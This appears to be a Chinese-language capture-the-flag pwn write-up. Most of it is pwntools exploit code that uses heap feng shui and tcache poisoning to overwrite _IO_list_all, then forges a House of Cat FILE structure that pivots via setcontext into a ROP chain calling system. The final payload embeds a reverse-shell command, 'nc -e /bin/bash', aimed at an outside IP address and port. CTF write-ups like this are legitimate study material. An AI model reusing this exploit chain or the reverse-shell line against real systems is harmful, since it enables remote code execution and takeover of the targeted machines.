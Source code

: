 ```
#=======================================================================================================================
add(0x2f0,b'01')#5
free(1)
show(5)
io.recvuntil(b"Content:\n")
heap=(u64(io.recv(8))<<12)-0x2000
success("heap=>"+str(hex(heap)))
key=(heap>>12)+2
one=[0x583ec,0x583f3,0xef4ce,0xef52b]
one=one[3]+base
add(0x2f0,b'01')#1
free(3)
free(1)
```

堆风水的过程中要注意让mallco(0)的指针在填充Tcachebins和利用堆块的中间,这样构造堆块重叠比较方便(无需伪造chunk头)

我构造的堆风水:

能保证同时掌握两枚指针指向同一个0x2f0大小的堆块,于是我用这个堆块攻击_IO_list_all,将伪造的IO堆块地址写入_IO_list_all

此时的问题就是究竟要写哪种IO结构体?

我首先想到的是house of apple2,这条IO链可以快速获得一个shell,但缺点就是这个shell只能是system(" sh"),如果是普通的堆题足够了,但这个题存在套接字:我的shell会开在套接字上,而套接字会在exit冲刷IO流前被关闭,于是我既无法向这个shell发送命令,也无法接受shell给我们的回显,那这个shell开的还有什么意义呢?

在反复尝试失败后我选择使用反弹shell,如果这个shell开在我自己的端口,即使套接字被关了,我仍然能向shell中输入指令获得回显,但apple链无法满足这个要求,所以IO结构体需要从新伪造

House of cat的特点是,很适合进行栈迁移实现rop,而rop能给我充足的空间写下反弹shell的command,所以写house of cat结构体,今天还发现了hosue of cat尽量不要把fd,wide_data与wide_data_vtable重叠在一起,要不然会被检查gank.

```
#=======================================================
#IO:hosue of cat
edit(5,p64(_IO_list_all^key))
wide=heap+0x20c0
Wide=flat({
    0x00:{#fd
        0x28:p64(1),                    #write_ptr==1 to set write_ptr>write_base
        0x88:p64(heap+0x200),           #lock_aren must can write
        0xa0:p64(wide+0x100),           #wide_data
        0xd8:p64(_IO_wfile_jumps+0x30), #vtable of fd
        },
    0x100:{#the fake wide_data
        0x20:p64(wide+0x200+0x50-0xa0), #the rdx of setcontext,rdx=target-0xa0
        0xe0:p64(wide+0x200)            #the fake vtable of wide_data
        },
    0x200:{#the fake wide_data_vtable
        0x18:p64(setcontext),           #the wide_data call the offset of 0x18' function
                                        #the setcontext can set the rsp:mov rsp,[rdx+0xa0]
        0x50:p64(wide+0x258),           #target,the rsp set as it at last
        0x58:p64(ret),                  #the rop
        0x60:p64(rdi),
        0x68:p64(wide+0x2a0),
        0x70:p64(system),
        0xa0:b'nc -e /bin/bash 3.112.71.79 17020\x00'
        }
    },filler=b'\x00')
add(0x2f0,Wide)
add(0x2f0,p64(wide))
print("stderr=>"+str(hex(_IO_list_all)))
io.sendline(b"5")#IO(exit)
io.interactive()
```
